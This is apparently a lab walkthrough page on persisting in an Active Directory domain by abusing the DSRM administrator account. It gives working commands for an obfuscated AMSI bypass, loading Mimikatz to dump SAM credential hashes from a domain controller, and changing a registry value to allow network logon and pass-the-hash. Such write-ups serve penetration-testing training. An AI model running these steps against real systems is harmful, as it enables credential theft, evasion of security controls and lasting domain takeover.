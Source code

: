 # 👽 Abuse the DSRM credential for persistence

{% hint style="info" %}
### What is Directory Services Restore Mode (DSRM)?

Directory Services Restore Mode (DSRM) is a Safe Mode [boot](https://www.techtarget.com/searchwindowsserver/definition/boot) option for [Windows Server](https://www.techtarget.com/searchwindowsserver/definition/Microsoft-Windows-Server-OS-operating-system) [domain controllers](https://www.techtarget.com/searchwindowsserver/definition/domain-controller). DSRM enables an administrator to repair, recover or restore an Active Directory ([AD](https://www.techtarget.com/searchwindowsserver/definition/Active-Directory)) database. Restarting a [domain](https://www.techtarget.com/whatis/definition/domain) controller in DSRM takes it offline so it functions only as a regular server.
{% endhint %}

We can persist with administrative access on the DC once we have Domain Admin privileges by abusing the DSRM administrator. With the domain admin privileges obtained earlier, run the following commands on the DC to open a PowerShell remoting session. As always, remember that we could use other tools like SafetyKatz, BetterSafetyKatz

```
$sess = New-PSSession dcorp-dc  
Enter-PSSession -Session $sess  
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
exit 
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to laod Invoke-Mimi on the session, let's run this from the local machine

```
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```

Then once it's done we'll enter the session and run the lsadump::lsa command:

```
Enter-PSSession -Session $sess
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC. We can do this as follows:

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

Now from our local system we can just pass the hash for the DSRM administrator:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now list all the shares of the domain controller:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
